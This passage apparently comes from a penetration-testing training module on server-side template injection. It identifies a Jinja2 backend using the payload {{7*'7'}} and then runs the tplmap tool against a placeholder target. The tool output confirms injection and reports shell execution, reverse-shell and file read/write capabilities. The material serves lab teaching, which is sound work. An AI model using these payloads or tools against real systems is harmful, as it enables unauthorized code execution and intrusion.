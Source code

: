 ```shell-session
		<div class="window" data-title="Windows">
			<h1>Windows</h1>
			<p>Minimize the windows to the taskbar, make them full screen or close them.</p>
			<p>Drag the title bar to move the windows or resize them from the bottom right corner.</p>
		</div>
		
		<div id="taskbar">		
		</div>
		
		<div id="icons">
			<a class="openWindow" data-id="0">Run</a>
			<a class="openWindow" data-id="1">Welcome</a>
		</div>
		<font size="5px"><a href="https://html5-templates.com/" rel="nofollow" target="_blank" id="templateLink">&copy; HTML5-Templates.com</a></font>
		<!-- You can use this template freely if you leave a visible link to HTML5-Templates.com -->
	</div>
</body>
```

The application successfully evaluated this expression as well. According to PortSwigger's diagram, we are dealing with either a Jinja2 or a Twig template engine. That being said, the fact that {{7*'7'}} was evaluated with the application returning 7777777 means that Jinja2 is being utilized on the backend.

We could have automated the template engine identification process we just executed through `tplmap`, as follows.

#### tplmap.py

  SSTI Exploitation Example 3

```shell-session
Pangulin@htb[/htb]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>/execute?cmd'

    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'cmd' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: cmd
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code
```